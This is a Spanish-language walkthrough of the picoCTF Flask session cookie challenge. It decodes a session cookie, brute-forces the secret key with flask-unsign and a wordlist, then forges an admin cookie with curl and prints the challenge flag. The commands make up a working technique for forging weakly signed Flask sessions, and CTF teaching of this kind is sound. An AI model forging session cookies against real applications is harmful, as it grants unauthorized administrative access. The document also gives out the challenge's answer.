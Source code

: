 ## Objetivo
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py) [http://mercury.picoctf.net:65344/](http://mercury.picoctf.net:65344/)
## Solución
- Instalamos y configuramos la herramienta pipx.
```bash
┌──(armando㉿kali)-[~]
└─$ sudo apt install pipx

...

┌──(armando㉿kali)-[~/picoCTFretos]
└─$ pipx ensurepath
Success! Added /home/armando/.local/bin to the PATH environment variable.

Consider adding shell completions for pipx. Run 'pipx completions' for
instructions.

You will need to open a new terminal or re-login for the PATH changes to
take effect. Alternatively, you can source your shell's config file with
e.g. 'source ~/.bashrc'.

Otherwise pipx is ready to go! ✨ 🌟 ✨

┌──(armando㉿kali)-[~/picoCTFretos]
└─$ source ~/.zshrc

┌──(armando㉿kali)-[~/picoCTFretos]
└─$ 
```
- Descargamos la herramienta que vamos a utilizar `flask-unsign` y utilizamos la cookie que creamos como ejemplo.
```bash
┌──(armando㉿kali)-[~/picoCTFretos]
└─$ pipx install flask-unsign
  installed package flask-unsign 1.2.0, installed using Python 3.12.6
  These apps are now globally available
    - flask-unsign
done! ✨ 🌟 ✨

┌──(armando㉿kali)-[~/picoCTFretos]
└─$ flask-unsign --decode --cookie eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZvyqxA.5MIa-HH7JxZdmpSg8I_4Fw5azZo
{'very_auth': 'snickerdoodle'}

┌──(armando㉿kali)-[~/picoCTFretos]
└─$ 
```
- Creamos un archivo con las cookies y la utilizamos con la cookie que tenemos para obtener la firma.
```bash
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia

┌──(armando㉿kali)-[~/picoCTFretos]
└─$ flask-unsign --unsign --cookie eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZvyqxA.5MIa-HH7JxZdmpSg8I_4Fw5azZo --wordlist cookies.txt 
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'fortune'

┌──(armando㉿kali)-[~/picoCTFretos]
└─$ 
```
- Finalmente creamos  una nueva cookie con el usuario de admin y con la llave que descubrimos y ya solo utilizamos la cookie que creamos en la pagina web para obtener la bandera.
```bash
┌──(armando㉿kali)-[~/picoCTFretos]
└─$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'fortune'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZvyvMQ.eyjKKBPBTbNJpNHW25d6r6RlFqg

┌──(armando㉿kali)-[~/picoCTFretos]
└─$ curl http://mercury.picoctf.net:65344/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZvyvMQ.eyjKKBPBTbNJpNHW25d6r6RlFqg" 

picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}</code></p>

┌──(armando㉿kali)-[~/picoCTFretos]
└─$ 
```
## Notas Adicionales
## Referencias
- [ Flask - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask)